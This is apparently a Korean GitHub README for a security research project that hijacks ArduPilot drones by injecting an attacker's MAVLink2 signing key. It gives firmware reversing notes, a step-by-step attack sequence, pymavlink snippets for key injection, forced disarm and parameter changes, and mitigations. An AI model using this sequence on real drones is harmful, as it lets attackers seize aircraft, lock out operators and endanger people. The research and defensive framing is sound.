

# 🚁 MAVLink Key Injection Attack — 드론 원격 제어권 탈취

> ArduPilot 기반 드론의 MAVLink2 미서명 통신 취약점을 발견하고, 서명 키 주입(Key Injection)을 통해  
> 원격으로 드론 제어권을 탈취하는 공격을 연구·구현한 프로젝트입니다.

---

## 📌 프로젝트 개요

| 항목 | 내용 |
|------|------|
| **대상** | Holybro X500 V2 (Pixhawk 기반 쿼드콥터) |
| **펌웨어** | ArduCopter V4.5.7 |
| **프로토콜** | MAVLink2 |
| **취약점** | MAVLink 메시지 서명 미적용(Unsigned Communication) |
| **공격 유형** | Key Injection → 제어권 탈취 → ARM/모터 회전/DISARM |
| **사용 도구** | IDA Pro (리버싱), Python + pymavlink (공격 코드) |

---

## 🔍 취약점 발견 과정

### Phase 1: 펌웨어 리버싱 (정찰)

`arducopter.elf` 펌웨어 바이너리를 **IDA Pro**로 분석하여 다음 정보를 확인했습니다.

#### 1-1. MAVLink2 서명 구조체 사용 확인
- 펌웨어 내 `signing`, `key`, `secret` 등 문자열 검색
- `handle_setup_signing` 함수 발견 및 디컴파일

#### 1-2. 키 구조 분석
- `handle_setup_signing` 함수에서 서명 키 처리 로직 확인
- 키 버퍼 크기: **32바이트**, 메시지 offset +12부터 복사
- 최대 42바이트 (32바이트 키 + 8바이트 타임스탬프 + 2바이트 여유)

```c
// IDA Pro 디컴파일 결과 (handle_setup_signing)
if (*(_BYTE *)(v2 + 156))  // ARM 상태 체크
    return "ERROR: Won't setup signing when armed";

v4 = *(unsigned __int8 *)(a2 + 3);  // 메시지 길이
if (v4 >= 0x2A) v4 = 42;             // 최대 42바이트
memcpy(v10, a2 + 12, v4);            // offset +12부터 복사
```

> **핵심 발견**: ARM 상태가 아닐 때만 서명 키 설정이 가능하다는 조건을 확인.  
> 즉, DISARM 상태에서 키를 주입한 후 ARM 명령을 보내면 공격이 성립됨.

#### 1-3. 타임스탬프 처리 확인
- `load_signing_key` 함수에서 타임스탬프 규격 확인
- **MAVLink Epoch** (2015-01-01 00:00:00 UTC) 기준, **10μs 단위**

#### 1-4. 강제 DISARM 매직 넘버 확인
- 펌웨어 내 `MAV_CMD_COMPONENT_ARM_DISARM` 처리 로직에서 `param2 = 21196` 값으로 **강제 DISARM** 가능

#### 1-5. 파라미터 시스템을 통한 드론 상태 변경
- `AP_Param` 시스템을 통해 Safety, Arming 설정 원격 변경 가능 확인

---

### Phase 2: MAVLink 프로토콜 분석

MAVLink 공식 문서에서 서명 메커니즘의 상세 구조를 파악했습니다.

#### SETUP_SIGNING 메시지 구조
| 필드 | 크기 | 설명 |
|------|------|------|
| `target_system` | 1B | 대상 시스템 ID |
| `target_component` | 1B | 대상 컴포넌트 ID |
| `secret_key` | 32B | 서명에 사용할 비밀키 |
| `initial_timestamp` | 8B | 초기 타임스탬프 (10μs 단위) |

#### 서명 구조 (MAVLink2 메시지 끝에 13바이트 추가)
```
[link_id (1B)] [timestamp (6B)] [signature (6B)]
```

- **signature** = `SHA-256(secret_key + header + payload + CRC + link_id + timestamp)`의 처음 6바이트
- 서명이 활성화되면 해당 키로 서명되지 않은 메시지는 **모두 무시**됨

#### 참고 문서
- 서명 가이드: https://mavlink.io/en/guide/message_signing.html
- 메시지 정의: https://mavlink.io/en/messages/common.html
- ArduPilot 파라미터: https://ardupilot.org/copter/docs/parameters.html

---

### Phase 3: 파라미터 설정 분석

`param.param` 설정 파일(Mission Planner 추출)을 분석하여 드론의 현재 상태를 파악했습니다.

```
SYSID_THISMAV = 1       # → TARGET_SYSTEM=1 확인
BRD_SAFETYENABLE = 0    # 세이프티 비활성화 상태
ARMING_CHECK = 0        # PreArm 체크 우회 가능
FRAME_CLASS = 1          # Quad (4모터)
FRAME_TYPE = 1           # X형 배치
SERVO1_FUNCTION = 33     # Motor1
SERVO2_FUNCTION = 34     # Motor2
SERVO3_FUNCTION = 35     # Motor3
SERVO4_FUNCTION = 36     # Motor4
```

---

## 🎯 발견된 취약점 요약

### 취약점 1: MAVLink 미서명 통신
- 대부분의 상용 드론이 MAVLink 서명을 **기본적으로 활성화하지 않음**
- 실제 테스트 결과, 대부분의 드론이 **미서명 상태로 운용**되고 있어 즉시 주도권 획득이 가능
- 서명이 없으면 누구나 MAVLink 메시지를 보내 드론을 제어할 수 있음

### 취약점 2: 서명 키 주입 가능
- DISARM 상태의 드론에 `SETUP_SIGNING` 메시지를 보내 **공격자의 키를 주입** 가능
- 키가 주입되면 기존 GCS(지상 통제 소프트웨어)는 서명이 없어 **연결 불가**

### 취약점 3: 주도권 획득 후 완전한 원격 제어
- 키 주입 이후 해당 키로 서명된 메시지만 수신하므로, 공격자가 **독점적 제어권** 획득
- ARM, 모터 제어, 모드 변경, 강제 DISARM 등 모든 명령 실행 가능

---

## ⚔️ 공격 시나리오 (Attack Sequence)



### 공격 단계 상세

| 단계 | 동작 | 기술 |
|------|------|------|
| 1 | **연결 수립** | 시리얼(UART) 57600 baud, MAVLink2 강제 |
| 2 | **키 주입** | `SETUP_SIGNING` 메시지로 32바이트 키 주입 |
| 3 | **서명 확립** | 공격자 측 서명 활성화 → 프로빙으로 양방향 확인 |
| 4 | **파라미터 조작** | Safety 해제, ARMING_CHECK 우회, 모터 매핑 설정 |
| 5 | **FCU 재부팅** | 파라미터 적용을 위한 재부팅 후 서명 재확립 |
| 6 | **모드 설정** | Stabilize 모드(custom_mode=0) 설정 |
| 7 | **ARM** | `MAV_CMD_COMPONENT_ARM_DISARM` (param1=1) |
| 8 | **모터 회전** | `RC_CHANNELS_OVERRIDE` (CH3=1550μs) |
| 9 | **강제 DISARM** | `MAV_CMD_COMPONENT_ARM_DISARM` (param1=0, param2=21196) |

---

## 🛠️ 공격 코드 구현

### 핵심 함수 설명

#### `reinit_signing_on_fcu()` — 키 주입
```python
def reinit_signing_on_fcu(m, key):
    """FCU에 공격자의 서명 키를 주입"""
    m.mav.setup_signing_send(
        TARGET_SYSTEM, TARGET_COMPONENT,
        list(key),       # 32바이트 키
        ts_10us()        # 현재 타임스탬프
    )
```
- `SETUP_SIGNING` 메시지를 드론에 전송하여 공격자의 키를 설정
- 이후 드론은 이 키로 서명된 메시지만 수신

#### `enable_signing()` — 로컬 서명 활성화
```python
def enable_signing(mav, key, ts, link_id=1, src_sys=255, src_comp=190):
    """공격자 측 MAVLink 서명 활성화"""
    s = mavutil.mavlink.MAVLinkSigning()
    s.secret_key = key
    s.link_id = link_id
    s.timestamp = ts
    s.sign_outgoing = True
    mav.signing = s
```

#### `ensure_signed()` — 서명 통신 확립
```python
def ensure_signed(m, key):
    """키 주입 + 서명 활성화 + 양방향 통신 확인"""
    for _ in range(2):
        enable_signing(m.mav, key, ts_10us())
        if probe_signed(m): return True     # 이미 서명 통신 가능
        reinit_signing_on_fcu(m, key)        # 키 주입
        enable_signing(m.mav, key, ts_10us())
        if probe_signed(m): return True     # 주입 후 확인
    return False
```

#### `force_disarm()` — 강제 정지
```python
def force_disarm(m, n=3):
    """매직 넘버(21196)를 사용한 강제 DISARM"""
    CMD = mavutil.mavlink.MAV_CMD_COMPONENT_ARM_DISARM
    for _ in range(n):
        m.mav.command_long_send(
            TARGET_SYSTEM, TARGET_COMPONENT, CMD, 0,
            0,       # param1: 0 = DISARM
            21196,   # param2: 매직 넘버 (강제)
            0, 0, 0, 0, 0
        )
```

### 전체 실행 흐름

```
연결 → 키 주입 → 서명 확인 → 파라미터 설정 → 재부팅
→ 재연결 → 서명 재확립 → Stabilize 모드 → ARM
→ 스로틀 올림 (모터 회전 10초) → 스로틀 낮춤 → 강제 DISARM
```

---

## 📁 프로젝트 구조

```
key_injection/
├── README.md                    # 프로젝트 설명 (이 파일)
├── exploit/
│   └── mavlink_key_injection.py # 공격 코드 (PoC)
├── analysis/
│   ├── firmware_analysis.md     # IDA Pro 펌웨어 분석 결과
│   ├── param_analysis.md        # 파라미터 설정 분석
│   ├── execution_log.md         # 실제 공격 실행 로그 및 결과 분석
│   └── technical_notes.md       # 함수별 기술 상세 노트
├── docs/
│   ├── attack_flow.md           # 공격 흐름 상세
│   ├── vulnerability_report.md  # 취약점 보고서
│   └── mitigation.md            # 대응 방안
└── images/
    ├── ida_signing_func.png     # IDA 분석 스크린샷
    ├── attack_diagram.png       # 공격 다이어그램
    └── drone_setup.png          # 드론 환경 구성
```

---

## 🛡️ 대응 방안 (Mitigation)

| 대응 | 설명 |
|------|------|
| **MAVLink 서명 활성화** | `BRD_SIGNING_KEY` 파라미터로 서명 키 설정 |
| **서명 필수 적용** | 미서명 메시지를 거부하도록 설정 |
| **물리적 접근 제한** | 시리얼 텔레메트리 포트 보호 |
| **통신 암호화** | MAVLink 메시지에 TLS/DTLS 적용 검토 |
| **펌웨어 업데이트** | 최신 ArduPilot 버전으로 보안 패치 적용 |

---

## 🔔 주의사항

### 다중 드론 환경
- 여러 대의 드론이 동일 채널에 존재할 경우, **각 드론의 `SYSID_THISMAV` 값이 다르지 않으면** 공격이 의도하지 않은 드론에 전달될 수 있음
- 공격 코드의 `TARGET_SYSTEM` 값을 대상 드론의 실제 시스템 ID와 정확히 일치시켜야 함
- 테스트 환경에서는 반드시 **단일 드론** 또는 **고유 SYSID 설정**을 사용할 것

---

## ⚠️ 면책 조항 (Disclaimer)

> 이 프로젝트는 **보안 연구 및 교육 목적**으로만 작성되었습니다.  
> 허가 없이 타인의 드론에 해당 공격을 시도하는 것은 **불법**입니다.  
> 모든 테스트는 **통제된 환경**에서, **프로펠러를 제거/고정**한 상태에서 진행되었습니다.

---

## 🔗 참고 자료

- [MAVLink Message Signing Guide](https://mavlink.io/en/guide/message_signing.html)
- [MAVLink Common Messages](https://mavlink.io/en/messages/common.html)
- [ArduPilot Copter Parameters](https://ardupilot.org/copter/docs/parameters.html)
- [pymavlink Documentation](https://mavlink.io/en/mavgen_python/)

---

## 📝 연구 환경

| 구성 요소 | 상세 |
|-----------|------|
| **드론** | Holybro X500 V2 (Pixhawk 기반) |
| **펌웨어** | ArduCopter V4.5.7 (2a3dc4b7) |
| **통신** | 시리얼 UART (57600 baud) |
| **분석 도구** | IDA Pro |
| **공격 도구** | Python 3 + pymavlink |
| **테스트 환경** | 벤치 테스트 (프로펠러 제거 상태) |
